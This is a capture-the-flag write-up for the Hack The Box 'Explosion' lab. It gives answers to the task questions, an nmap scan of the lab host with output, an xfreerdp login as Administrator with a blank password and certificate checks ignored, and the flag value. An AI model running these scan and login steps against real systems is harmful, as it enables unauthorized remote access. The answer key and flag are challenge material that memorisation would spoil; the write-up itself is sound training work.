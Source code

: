 # Explosion
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Explosion
* Topic: [[Account Misconfiguration]] [[xfreerdp]]
* Difficulty: Very easy
* Date: 15-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the 3-letter acronym RDP stand for?
 - **remote desktop protocol**
2. What is a 3-letter acronym that refers to interaction with the host through a command line interface?
- **cli**
3. What about graphical user interface interactions? 
- **gui**
4. What is the name of an old remote access tool that came without encryption by default? 
- **telnet**
5. What is the concept used to verify the identity of the remote host with SSH connections?
- **public-key cryptography**
6. What is the name of the tool that we can use to initiate a desktop projection to our host using the terminal?
- **rdesktop**
7. What is the name of the service running on port 3389 TCP? 
- **ms-wbt-server**
8. What is the switch used to specify the target host's IP address when using xfreerdp?
- **/v:**

---
## Flag:
First, we need to scan the target with `nmap`.

Command:
`nmap -n -sC -sV 10.129.92.232`
`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).
`-sC`: Run scripts during scan.
`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.92.232 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 13:50 EDT
Nmap scan report for 10.129.92.232
Host is up (0.069s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-15T17:50:27+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-04-14T17:49:40
|_Not valid after:  2022-10-14T17:49:40
|_ssl-date: 2022-04-15T17:50:35+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-15T17:50:31
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 22.03 seconds
```

We can use [xfreerdp](https://linux.die.net/man/1/xfreerdp) to connect to the host.

Command:
`xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore`
`/v:`: The host we want to connect to.
`/u:`: The user we want to log in as.
`/cert:`: Ignore all kind of certificates.

```console
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore
Password: 
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_RGB16
[10:18:16:733] [89007:89008] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[10:18:19:505] [89007:89008] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
^C[10:21:06:676] [89007:89007] [ERROR][com.freerdp.utils] - Caught signal 'Interrupt' [2]
[10:21:06:677] [89007:89007] [ERROR][com.freerdp.utils] - 0: /lib/x86_64-linux-gnu/libwinpr2.so.2(winpr_backtrace+0x50) [0x7f32435efc30]

(...)
```

A new window appears. We've connected to a computer running Windows Server 2019.

The flag is visible on the desktop.

![](Pasted%20image%2020220415162356.png)

**Flag:** `951fa96d7830c451b536be5a6be008a0`

---
**Tags:** [[HackTheBox]]